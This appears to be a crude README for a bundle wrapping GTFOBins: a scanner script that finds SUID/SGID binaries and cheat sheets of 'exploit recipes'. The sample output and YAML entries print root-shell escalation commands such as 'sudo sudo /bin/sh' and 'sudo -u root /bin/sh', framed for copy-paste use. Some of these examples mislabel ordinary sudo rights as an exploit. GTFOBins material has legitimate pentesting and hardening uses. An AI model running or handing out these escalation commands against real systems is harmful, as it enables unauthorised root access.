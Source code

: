 ## GTFOBins 
What's in the box? <br>
You get two things:<br>

- gtfo.sh - A scanner that finds dangerous binaries you can exploit.<br>

- .gtfodata/ - A folder full of cheat sheets for breaking shit.<br>

### How to Use This Damn Thing<br>

1. Unzip It<br>

bash
unzip gtfo-bundle.zip

2. Run the Scanner<br>
Make it executable and fire it up:<br>

chmod +x gtfo.sh  
./gtfo.sh

<br>
3. What You'll See <br>
The script hunts for SUID/SGID binaries (the kind that can give you root if they're fucked up). When it finds one, it shows: <br>

Where the binary is (like /usr/bin/sudo) <br>

What you can do with it (like sudo or shell tricks) <br>

The actual commands to run (copypasta this shit) <br>

Example output: <br>

[!] Found something juicy: /usr/bin/sudo
 [>] Tricks you can pull: sudo, shell
 [>] Sudo exploit:
    sudo sudo /bin/sh
 [>] Shell exploit:
    sudo -u root /bin/sh
How to Read the GTFOBins Cheat Sheets
Every file in .gtfodata/ (like sudo.md) has exploit recipes like this:

markdown
---
functions:
  sudo:
    - code: sudo sudo /bin/sh
  shell:
    - code: sudo -u root /bin/sh
---
functions: - Different ways to abuse it.

sudo: - How to turn sudo into a root shell.

shell: - How to spawn a shell directly.

## Why Bother With This?
Fast as hell - Finds vulnerable binaries in seconds.
No internet needed - All the exploits are right there.

Thanks to GTFOBins.
